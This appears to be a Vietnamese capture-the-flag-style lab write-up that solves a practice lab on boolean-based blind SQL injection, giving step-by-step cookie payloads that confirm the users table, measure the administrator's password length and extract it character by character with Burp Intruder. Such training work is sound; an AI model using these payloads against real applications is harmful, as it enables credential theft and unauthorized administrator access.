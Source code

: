 # 🔐 Lab 11: Blind SQL injection with conditional responses

<div align="center">

![Difficulty](https://img.shields.io/badge/Difficulty-PRACTITIONER-yellow?style=for-the-badge)
![Type](https://img.shields.io/badge/Type-Blind_SQLi-red?style=for-the-badge)
![Technique](https://img.shields.io/badge/Technique-Boolean_Based-blue?style=for-the-badge)
![Status](https://img.shields.io/badge/Status-Solved-success?style=for-the-badge)

</div>

---

## Mô tả

Lab này chứa lỗ hổng Blind SQL injection. Ứng dụng sử dụng tracking cookie để phân tích và thực hiện truy vấn SQL chứa giá trị của cookie được gửi lên.

Kết quả của truy vấn SQL không được trả về và không có thông báo lỗi nào được hiển thị. Tuy nhiên, ứng dụng sẽ hiển thị thông báo "Welcome back" trên trang nếu truy vấn trả về bất kỳ hàng nào.

Cơ sở dữ liệu chứa một bảng khác có tên là `users`, với các cột `username` và `password`. Chúng ta cần khai thác lỗ hổng Blind SQL injection để tìm ra mật khẩu của người dùng administrator.

**Mục tiêu**: Đăng nhập với tài khoản administrator.

**Ghi chú**: Có thể giả định rằng mật khẩu chỉ chứa các ký tự chữ thường và số.

## Các bước thực hiện

### Bước 1: Xác định lỗ hổng SQL injection

1. Mở Burp Suite và bật ***intercept***
2. Truy cập trang chủ của cửa hàng
3. Sử dụng Burp Suite để chặn và sửa đổi request chứa cookie `TrackingId`
![kiểm tra trackingId](./images/1.png)
### Bước 2: Kiểm tra điều kiện boolean cơ bản

**Test 1**: Sửa đổi cookie thành:
```
TrackingId=xyz' AND '1'='1
```
![Thay đổi tham số TrackingId](./images/2.png)

- Kết quả: Thông báo "Welcome back" xuất hiện trong response
- Kết luận: Điều kiện TRUE hoạt động

**Test 2**: Sửa đổi cookie thành:
```
TrackingId=xyz' AND '1'='2
```
![Thay đổi TrackingId 1=2](./images/3.png)
![Kết quả TrackingId 1=2](./images/4.png)
- Kết quả: Thông báo "Welcome back" KHÔNG xuất hiện
- Kết luận: Điều kiện FALSE hoạt động, xác nhận có thể test các điều kiện boolean

### Bước 3: Xác nhận sự tồn tại của bảng users

Sửa đổi cookie thành:
```
TrackingId=xyz' AND (SELECT 'a' FROM users LIMIT 1)='a
```
![ Xác nhận sự tồn tại của bảng users](./images/5.png)
![ Xác nhận sự tồn tại của bảng users](./images/6.png)
- Kết quả: Điều kiện trả về TRUE
- Kết luận: Bảng `users` tồn tại trong database

### Bước 4: Xác nhận user administrator tồn tại

Sửa đổi cookie thành:
```
TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator')='a
```
![Xác nhận user administrator tồn tại](./images/7.png)
![Xác nhận user administrator tồn tại](./images/8.png)
- Kết quả: Điều kiện trả về TRUE
- Kết luận: User `administrator` tồn tại

### Bước 5: Xác định độ dài mật khẩu

**Phương pháp**: Sử dụng hàm `LENGTH()` để kiểm tra độ dài mật khẩu

Bắt đầu với:
```
TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a
```
![Xác định độ dài mật khẩu](./images/9.png)

Tiếp tục kiểm tra với các giá trị tăng dần:
```
TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>2)='a
TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>3)='a
...
TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>20)='a
```
![Xác định độ dài mật khẩu](./images/10.png)
![Xác định độ dài mật khẩu](./images/11.png)
![Xác định độ dài mật khẩu](./images/13.png)
- Khi thông báo "Welcome back" biến mất, ta đã xác định được độ dài mật khẩu
- **Kết quả**: Mật khẩu có độ dài **20 ký tự**

### Bước 6: Brute-force từng ký tự của mật khẩu

Sau khi xác định độ dài, ta cần test từng ký tự tại mỗi vị trí. Do số lượng request lớn, sử dụng **Burp Intruder**.

#### 6.1. Cấu hình Burp Intruder

1. Gửi request đang làm việc sang Burp Intruder (chuột phải → Send to Intruder)

2. Sửa giá trị cookie thành:
```
TrackingId=xyz' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a
```

Giải thích: 
- `SUBSTRING(password,1,1)`: Trích xuất 1 ký tự từ vị trí thứ 1 của mật khẩu
- So sánh với ký tự cụ thể để test

3. Đánh dấu payload position:
   - Chọn ký tự `a` cuối cùng trong cookie
   - Click nút "Add §" để thêm marker
   - Kết quả:
```
TrackingId=xyz' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='§a§
```
![Cấu hình Burp Intruder](./images/15.png)
#### 6.2. Cấu hình Payloads

1. Trong tab Payloads, chọn **Brup forcer**
![Payload configure](./images/10.png)
#### 6.3. Cấu hình Grep - Match

1. Mở tab **Settings**
2. Trong phần **Grep - Match**:
   - Xóa các entry hiện có
   - Thêm giá trị: `Welcome back`
3. Điều này giúp xác định khi nào tìm được ký tự đúng
![Cấu hình Grep - Match](./images/14.png)

#### 6.4. Thực hiện Attack

1. Click nút **Start attack** để bắt đầu
2. Xem kết quả trong cột "Welcome back"
![Thực hiện Attack](./images/16.png)

#### 6.5. Lặp lại cho các vị trí tiếp theo

Để tìm ký tự tại vị trí thứ 2:
```
TrackingId=xyz' AND (SELECT SUBSTRING(password,2,1) FROM users WHERE username='administrator')='§a§
```

Tiếp tục với vị trí 3, 4, 5... cho đến hết 20 ký tự:
```
TrackingId=xyz' AND (SELECT SUBSTRING(password,3,1) FROM users WHERE username='administrator')='§a§
TrackingId=xyz' AND (SELECT SUBSTRING(password,4,1) FROM users WHERE username='administrator')='§a§
...
TrackingId=xyz' AND (SELECT SUBSTRING(password,20,1) FROM users WHERE username='administrator')='§a§
```

### Bước 7: Đăng nhập với tài khoản administrator

1. Sau khi thu thập đủ 20 ký tự, ghép lại thành mật khẩu hoàn chỉnh
2. Click "My account" để mở trang đăng nhập
3. Đăng nhập với:
   - Username: `administrator`
   - Password: `[mật khẩu đã tìm được]`

### Bước 8: Hoàn thành lab

Sau khi đăng nhập thành công với tài khoản administrator, lab sẽ được đánh dấu là hoàn thành.
![Done](./images/18.png)

